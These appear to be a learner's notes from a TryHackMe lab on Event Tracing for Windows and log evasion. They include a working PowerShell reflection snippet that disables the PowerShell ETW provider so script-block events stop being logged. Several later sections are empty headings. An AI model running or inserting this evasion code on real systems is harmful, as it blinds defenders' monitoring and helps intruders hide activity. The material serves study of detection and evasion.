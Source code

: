 
## Introduction 

**Event Tracing for Windows** 

- Where event logs are stored and aggregated
## Event Tracing

- Event logging and trace logging are extensions of ETW 
  
  **Components**

- Controllers - build and configure sessions 
- Providers - Generate events 
- Consumers - Interpret events

## Approaches to Log Evasion 

**Event IDs for Configuring Logs (Log Smashing)** 

- 1102 - Logs when the windows security audit log was cleared 
- 104 - Logs when the log file was cleared 
- 1100 - Logs when the Windows Event Log service was shut down 

## Tracing Instrumentation 


**Event Controllers** 

- Define the size and location of a log file 
- Start and stop event tracing sessions 
- Enable providers so they can log events to the session 
- Manage the size of the buffer pool
- Obtain execution statistics for sessions

**Event Providers** 

- Collect logs from a designated source
- For example if you want to log a particular part of a system, there will be a provider for that
- Types of Providers : 
	- Managed Object Format - Defines events from the MOF classes 
	- Windows Software Trace Preprocessor - Associated with TMF files to decode information 
	- Manifest-Based - Defines events from a manifest 
	- TraceLogging - Self described events containing all required information 

**Event Consumers** 

- Consumers receive events stored in log files 
## Reflection for Fun and Silence 

- ETW Providers are loaded into a session from .NET Assembly: PSEtwLogProvider
- Assemblies are the fundamental units of a .NET Application, they can take the form of a executable or a dll. 
- On startup the user has the same security context as the assembly files, which means they can be modified. 
- Reflection is when an Assembly is investigated, specifically to look at the metadata. 
- A user can reflect the ETW provider, and switch the assembly from m_enabled to $null

**Configuring the ETW Provider**



```powershell
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
```


```powershell
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```

Set the etwprovider to null/0 ? So that no events are created after executing this powershell script
```powershell
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

An example of how the script would work
From the notes above, I believe this will only stop the events from being created by the user who runs the script. 
```powershell
PS C:\Users\Administrator>.\reflection.ps1
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
PS C:\Users\Administrator> whoami
Tryhackme\administrator
PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
18
```


## Patching Tracing Functions 


Common Language Runtime - When a new process is loaded, ETW originates from here. 

- A malicious user can configure in memory functions of ETW to disable it's functionality. 
## Providers via Policy 

## Group Policy Takeover 

## Abusing Log Pipeline 

## Real World Scenario 

